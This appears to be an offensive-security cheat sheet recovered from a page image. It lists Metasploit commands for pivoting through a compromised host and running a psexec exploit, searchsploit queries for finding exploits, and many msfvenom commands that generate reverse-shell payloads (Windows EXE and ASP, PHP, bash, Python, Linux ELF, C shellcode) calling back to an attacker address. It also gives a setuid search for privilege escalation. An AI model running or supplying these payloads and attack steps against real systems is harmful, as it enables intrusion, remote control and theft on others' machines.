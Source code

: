 or

# https://www.offensive-security.com/metasploit-unleashed/pivoting/
meterpreter > ipconfig
IP Address  : 10.1.13.3
meterpreter > run autoroute -s 10.1.13.0/24
meterpreter > run autoroute -p
10.1.13.0          255.255.255.0      Session 1
meterpreter > Ctrl+Z
msf auxiliary(tcp) > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 10.1.13.2
msf exploit(psexec) > exploit
meterpreter > ipconfig
IP Address  : 10.1.13.2
Exploit-DB search using CSV File
git clone https://github.com/offensive-security/exploit-database.git
cd exploit-database
./searchsploit –u
./searchsploit apache 2.2
./searchsploit "Linux Kernel"

cat files.csv | grep -i linux | grep -i kernel | grep -i local | grep -v dos | uniq | grep 2.6 | egrep "<|<=" | sort -k3
MSF Payloads
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> X > system.exe
msfvenom -p php/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 R > exploit.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -a x86 --platform win -f asp -o file.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e x86/shikata_ga_nai -b "\x00" -a x86 --platform win -f c
MSF Linux Reverse Meterpreter Binary
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -f elf -a x86 --platform linux -o shell
MSF Reverse Shell (C Shellcode)
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -b "\x00\x0a\x0d" -a x86 --platform win -f c
MSF Reverse Shell Python Script
msfvenom -p cmd/unix/reverse_python LHOST=127.0.0.1 LPORT=443 -o shell.py
MSF Reverse ASP Shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp -a x86 --platform win -o shell.asp
MSF Reverse Bash Shell
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.sh
MSF Reverse PHP Shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.php
add <?php at the beginning
perl -i~ -0777pe's/^/<?php \n/' shell.php
MSF Reverse Win Bin
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe -a x86 --platform win -o shell.exe
Linux Security Commands
# find programs with a set uid bit
find / -uid 0 -perm -4000
